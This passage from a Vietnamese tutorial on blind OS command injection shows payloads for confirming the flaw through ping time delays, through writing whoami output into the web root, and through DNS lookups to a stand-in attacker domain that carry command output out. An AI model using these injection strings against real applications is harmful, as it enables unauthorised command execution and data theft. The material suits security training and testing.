 Một cách phổ biến là dùng lệnh `ping`, vì nó cho phép chỉ định số lượng gói ICMP cần gửi. Điều này giúp bạn **kiểm soát thời gian chạy của lệnh**:

```
& ping -c 10 127.0.0.1 &
||ping+-c+10+127.0.0.1||
```

Lệnh trên sẽ khiến ứng dụng thực hiện **ping đến loopback adapter (127.0.0.1)** trong vòng **10 giây**.

Nếu phản hồi từ ứng dụng bị trì hoãn tương ứng (ví dụ: chậm hơn 10 giây), điều đó chứng tỏ payload đã được thực thi thành công, qua đó xác nhận lỗ hổng **blind OS command injection**.

## Redirecting output

Bạn có thể chuyển hướng đầu ra của lệnh được chèn vào một tệp nằm trong thư mục web root, sau đó tải tệp này bằng trình duyệt. Ví dụ, nếu ứng dụng phục vụ (serve) tài nguyên tĩnh từ vị trí `/var/www/static` trên hệ thống tệp, bạn có thể gửi input sau:

```
& whoami > /var/www/static/whoami.txt &
||whoami+>+/var/www/static/whoami.txt||
```

Ký tự `>` sẽ chuyển (ghi) đầu ra của lệnh `whoami` vào tệp được chỉ định. Tiếp đó, bạn dùng trình duyệt truy cập `https://vulnerable-website.com/whoami.txt` để tải tệp và xem đầu ra từ lệnh đã được chèn.

## OAST

Bạn có thể chèn một lệnh kích hoạt **tương tác mạng out-of-band** tới một hệ thống do bạn kiểm soát, sử dụng các kỹ thuật **OAST**. Ví dụ:

```
& nslookup kgji2ohoyw.web-attacker.com &
||nslookup+kgji2ohoyw.web-attacker.com||
```

Payload này dùng lệnh `nslookup` để thực hiện **truy vấn DNS** đến tên miền đã chỉ định. Kẻ tấn công có thể theo dõi xem truy vấn có xảy ra hay không để xác nhận rằng lệnh đã được chèn và thực thi thành công.

Kênh **out-of-band** cung cấp một cách dễ dàng để **trích xuất đầu ra** từ các lệnh đã chèn:

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
||nslookup+`whoami`kgji2ohoyw.web-attacker.com||
```

Điều này sẽ kích hoạt một truy vấn DNS tới tên miền của kẻ tấn công, trong đó chứa **kết quả của lệnh `whoami`**:

```
wwwuser.kgji2ohoyw.web-attacker.com
```

# Các lệnh chèn OS Command Injection
